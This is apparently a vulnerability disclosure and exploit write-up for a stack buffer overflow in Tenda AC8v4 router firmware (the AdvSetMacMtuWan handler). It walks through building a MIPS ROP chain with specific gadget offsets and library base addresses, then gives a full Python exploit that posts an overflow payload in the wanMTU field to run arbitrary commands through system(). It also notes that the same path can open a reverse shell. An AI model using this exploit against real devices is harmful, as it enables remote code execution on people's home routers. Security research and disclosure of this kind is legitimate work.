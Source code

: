 ## Preparation
I will skip the process of setting up the Tenda router simulation environment here. Let's run the httpd binary file to start the web service.

![alt text](image.png)

## Vulnerable Function
The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the fromAdvSetMacMtuWan function. In the function sub_458FBC, the v4, v5, v6, v7, v8, v9 variable receives the wanMTU, wanSpeed, cloneType, mac, serviceName, serverName parameter from a POST request and is later assigned to the function strcpy, which can cause a buffer overflow. The user-provided parameters can exceed the capacity of the a3 array(in the sub_458FBC function) ,and a3 is assigned to &v5[153 * i](in the fromAdvSetMacMtuWan function)  triggering this security vulnerability.**And finally, by constructing a ROP chain, RCE can be achieved**

![alt text](image-3.png)
![alt text](image-2.png)

## One problem
But I encounter the following problem

In a router, the WAN (Wide Area Network) settings are used to configure the router's external network interface that connects to the Internet. The WAN port is usually the interface that connects the router to the Internet Service Provider (ISP) modem. Configuring the correct WAN settings ensures that the router can access the Internet. 
 
In my understanding, wans.flag may be a Boolean value (true/false) to indicate whether certain functions or features are enabled. For example, it may be used to decide whether to enable a certain WAN interface or whether to enable certain advanced network functions. However, in the case of qemu simulation, the value read from GetValue("wans.flag", v4); is always 0, despite the following default settings.**But in the real environment, we can make the return value of GetValue("wans.flag", v4); a number greater than 0. In order to better carry out the attack, I did the following processing**
![alt text](image-1.png)

**To solve this problem,I modified the assembly code in ida so that this loop can be performed once**
![alt text](image-4.png)

## RCE
### Phase 1
In order to achieve RCE, it is necessary to hijack the return address of the fromAdvSetMacMtuWan function
![alt text](image-5.png)

At first I thought of using the gadget in the httpd binary file, but because it is a strcpy function, the gadget address in httpd is low, similar to 0x0045A944, **which will be truncated by \x00,** resulting in incomplete copying, **so we have to use an address near libcbase to avoid truncation.**

The following libcs ​​from vmmap can be used to find gadgets
![alt text](image-8.png)

Initially, I found this gadget in /lib/ld-musl-mipsel.so.1
```text
LOAD:0004D144                 addiu   $a0, $sp, 0x24+var_C
LOAD:0004D148                 lw      $ra, 0x24+var_s0($sp)
LOAD:0004D14C                 nop
LOAD:0004D150                 jr      $ra
```

**But the command length in this system ("command") is too short, so I want to find a new gadget to make the command length longer.**

**Using mipsrop.system(), I got the following gadget in /lib/libcrypto.so.1.0.0. In this way, the address of \$a0 is higher than the address of \$ra, so the command length can be infinite.**
```text
arg_0           =  4
var_s0          =  0
.text:000F6464                 addiu   $a0, $sp, 0x1C+arg_0
.text:000F6468                 lw      $ra, 0x1C+var_s0($sp)
.text:000F646C                 nop
.text:000F6470                 jr      $ra
```


**Note that before jr \$ra, the value of \$sp has been increased by 0x508**
![alt text](image-6.png)


### Phase 2
**When running exp, I found that the lw \$v0, 0xec(\$v0) instruction always fails.** ![alt text](image-9.png)

```text
0x4377f4 <websWriteBlock+116>    lw     $v0, 0x30($fp)
0x4377f8 <websWriteBlock+120>    nop    
0x4377fc <websWriteBlock+124>    lw     $v0, 0xec($v0)
```

**Tracing back to the source, we found that this value comes from here**
```text
0x4377a0 <websWriteBlock+32>    sw     $a0, 0x30($fp)
```
**Always trace back to the parameter a1 in ida (that is, $a0 in assembly)**
![alt text](image-10.png) ![alt text](image-11.png) ![alt text](image-12.png) ![alt text](image-13.png) ![alt text](image-14.png)

**To solve this problem, we can fill the stack with a writable address. You can see that after doing this, \$v0 is a writable value.**
![alt text](image-16.png)
![alt text](image-15.png)

### Phase 3
**It can be seen that the lw instruction fails because the value of \$gp is unreasonable. \$gp is difficult to control, so we choose to control \$t9 and use mipsrop to find the following gadget in /lib/ld-musl-mipsel.so.1. Use the data on the stack to control s4, and then use s4 to control t9, then the lw instruction can be executed correctly**
![alt text](image-18.png)

```text
0x0007EB5C
lw $s4,0x44+var_s10($sp)   0x54
jr    0x5C($sp) 

#0x0001B014  
move $t9,$s4          
jr    0x1C+var_s18($sp) 

```


### exp
**In order to make the exp attack more effective, you need to use the echo 0 > /proc/sys/kernel/randomize_va_space command to turn off ALSR before running the exp. In actual attacks, these libcbases may differ by integer multiples of 0x1000, which requires blasting**

You can watch the video in the project to see the attack effect more intuitively. **Note that by finding a better gadget, the length of the command that can be executed by the system function is unlimited, so that the RCE I expected is achieved.** At the same time, further attacks can be carried out by using the system function to rebound the shell
```python
import requests
from pwn import *
context.arch = 'mips'
context.endian = 'little'

ip = "192.168.50.100:80"
url = "http://" + ip + "/goform/AdvSetMacMtuWan"

#-------------------------------------------gadget1--------------------------------------------
'''
gadget1
/lib/libcrypto.so.1.0.0
arg_0           =  4
var_s0          =  0
.text:000F6464                 addiu   $a0, $sp, 0x1C+arg_0  0x20
.text:000F6468                 lw      $ra, 0x1C+var_s0($sp)
.text:000F646C                 nop
.text:000F6470                 jr      $ra
addiu   $sp, 0x20
'''

#Tenda AC8v4 V16.03.34.06 does not have ASLR mechanism,so the libcbase is definite
#/lib/libcrypto.so.1.0.0
libcbase1=0x77bda000
gadget1=libcbase1+0x00F6464

#---------------------------------------------gadget2-----------------------------------------------

'''
0x0007EB5C
lw $s4,0x44+var_s10($sp)   0x54
jr    0x5C($sp) 
'''
#0x77f59000 0x77fe5000 r-xp    8c000      0 /lib/ld-musl-mipsel.so.1
libcbase2=0x77f59000
gadget2=libcbase2+0x7EB5C
#a writable address
writable=0x77b68000+0x1010
#system
system=libcbase2+0x4E630

#---------------------------------------gadget3----------------------------------------
'''
#0x0001B014  
move $t9,$s4          
jr    0x1C+var_s18($sp) 0x34
addiu   $sp, 0x38
'''


gadget3=libcbase2+0x1B014 
t9_target=0x77fa7630
payload = p32(writable)*(0x4b8//4)+p32(writable)+p32(gadget2)+p32(writable)*(0x54//4)+p32(t9_target)+p32(writable)+p32(gadget3)
payload+=p32(writable)*(0x34//4)+p32(gadget1)
command=b'ls /bin > out ;'
payload+=p32(writable)*(0x1c//4)+p32(system)+command


data = {b"wanMTU": payload}
response = requests.post(url, data=data)
print(response.text)

```